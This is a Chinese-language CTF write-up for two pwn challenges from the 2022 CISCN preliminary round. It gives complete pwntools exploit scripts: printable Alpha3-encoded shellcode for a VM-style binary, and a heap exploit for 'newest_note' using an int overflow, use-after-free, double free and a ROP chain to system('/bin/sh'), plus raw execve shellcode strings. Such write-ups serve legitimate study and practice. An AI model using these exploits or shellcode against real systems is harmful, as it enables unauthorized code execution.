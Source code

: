```yaml
---
title: 2022 ciscn初赛 pwn Writeup
date: 2022-05-30 11:52:32 +0800
categories: [ctf比赛]
tags: [pwn, ctf]
permalink: /posts/id=24/
pin: false
published:
---
```


![image-20220530115403566](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220530115403566.png)

## login-nomal(可视化shellcode)

一道类VMpwn，逆出输入方式，发现功能二会开辟一片可执行的空间，直接执行写入的shellcode，这里要绕过isprint，用Alpha3生成可供call跳转执行的可见字符shellcode

![image-20220530115617543](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220530115617543.png)

![image-20220529191312430](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220529191312430.png)

这里讲一下shellcode的生成

先clone一个编译好的alpha3

```bash
git clone https://github.com/TaQini/alpha3.git
```

生成一个shellcode文件

```python
from pwn import *
context.arch='amd64'
sc = shellcraft.sh()
print asm(sc)
```

```bash
python sc.py > shellcode
# 这里要在文件夹外生成，然后拖进alpha3文件夹即可
cd ~/alpha3
./shellcode_x64.sh rdx #利用脚本生成所<call 寄存器>的shellcode，x86同理
```

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='amd64', os='linux')
context.log_level = 'debug'

p = process('./login')
elf = ELF("./login")
libc = elf.libc
def dbg():
    gdb.attach(p)

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------
def send(con):
	sla(">>> ",con)

def login():
	send("opt: 1\n\r"+'msg: ro0t \n\r\n')

def exita():
	send("opt: 3\n\r"+'msg: eX1t \n\r\n')

def copy(con):
	send("opt: 2\n\r"+'msg: '+con+' \n\r\n')

login()
pay = 'Rh0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a071N00'
copy(pay)
p.interactive()
```

## newest_note(malloc int溢出)

添加权限，执行程序。添加debug信息，把glibc-all-in-one里下好的debug版本的.build放到/usr/lib/debug下。

```bash
sudo chmod +x newest_note
sudo chmod +x libc.so.6
sudo chmod +x ld-linux-x86-64.so.2

cd /usr/lib/debug
sudo mv .build-id/ .build-id.bak
cd ~
sudo mv ~/.build-id/ /usr/lib/debug
```

![image-20220530115802288](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220530115802288.png)

程序已经patch好了，漏洞点在于malloc时8*了一个int类型，造成溢出，从而实现申请小堆但idx极大，实现了任意地址泄露和任意地址写

![image-20220529191907619](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220529191907619.png)

UAF漏洞

![image-20220529192244648](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220529192244648.png)

利用任意地址泄露泄露出栈地址以及libc偏移，free+UAF以及key和heap_base，再用一个doublefree，劫持栈rip执行输入的rop链

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='amd64', os='linux', log_level='debug')

p = process('./newest_note')
# p = remote("39.107.153.91","30623")
elf = ELF("./newest_note")
libc = elf.libc

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def add(idx,con='a'):
    sla(": ",1)
    sla("Index: ",idx)
    p.sendafter('Content: ',con)

def show(idx):
    sla(": ",3)
    sla("Index: ",idx)

def dele(idx):
    sla(": ",2)
    sla("Index: ",idx)

sla("How many pages your notebook will be? :",str(0x20005000))
show(0x487f5)
stack_addr = uu64()
show(0x4899a)
libc_base = uu64() - 0x218cc0
lg("libc_base")
ret = 0x000000000002d9b9+libc_base
for i in range(10):
    add(i,"a"*0x30)

dele(0)

for i in range(6):
    dele(i+1)

show(0)
ru("Content: ")
key = u64(p.recv(5).ljust(8,'\x00'))
lg("key")
heap_addr = key << 12
lg("heap_addr")

dele(7)
dele(8)
dele(7)

for i in range(7):
    add(i,"a"*0x30)
add(7,p64((stack_addr-0x150-0x8) ^ key ))

add(0,"e4l4")
add(1,"e4l4")
pop_rdi = 0x000000000002e6c5 + libc_base
add(2,p64(0) +p64(ret)+ p64(pop_rdi) + p64(libc_base + libc.search("/bin/sh\x00").next()) + p64(libc_base + libc.sym["system"]) )
p.interactive()
```

